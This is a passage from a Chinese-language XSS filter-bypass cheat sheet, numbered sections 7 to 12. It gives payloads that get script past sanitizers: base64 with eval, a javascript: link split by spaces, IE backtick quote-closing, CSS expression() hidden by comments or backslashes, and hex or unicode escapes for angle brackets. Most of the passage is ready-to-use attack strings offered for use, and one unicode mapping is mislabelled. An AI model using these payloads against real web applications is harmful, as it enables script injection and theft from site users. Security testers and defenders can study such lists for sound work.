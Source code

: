 #### 7. base64编码

```
"><script>eval((atob('base64代码'));</script>
```

#### 8. 绕过双引号过滤

空格代替双引号，来闭合属性。

#### 9. 绕过on、script等关键词过滤

使用空格绕过

```
"><a href="javascr   ipt:document.domain">xss</a>
```

#### 10. 绕过空格、尖括号和双引号等过滤

利用IE特性（两个反引号\`\`可以闭合一个左边双引号）

```
`` onmousemove=alert(document.domain)
```

#### 11. CSS注释绕过关键字过滤

利用CSS特性（仅IE浏览器）

如设置颜色，关键词expression可以用注释符/**/分断：

```
color:express/**/ion(if(!window.x){alert(document.domain);window.x=1;})
```

其中，expression()是css表达式，输入参数可以是JavaScript代码。

还可以使用反斜杠，IE浏览器也会接收：

```
color:express\ion(if(!window.x){alert(document.domain);window.x=1;})
```

#### 12. 绕过尖括号\<\>过滤

尖括号过滤（被转义成了\&gt;和\&lt;实体），双斜杠+十六进制编码绕过实体转义。双斜杠可加可不加，实际测试环境为准。

```
\\x3c是<
\\x3e是>
\\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e
```

双斜杠+unicode

```
\\u003c  <
\\u003e  <
\\u003cscript\\u003ealert(document.domain);\\u003c/script\\u003e
```

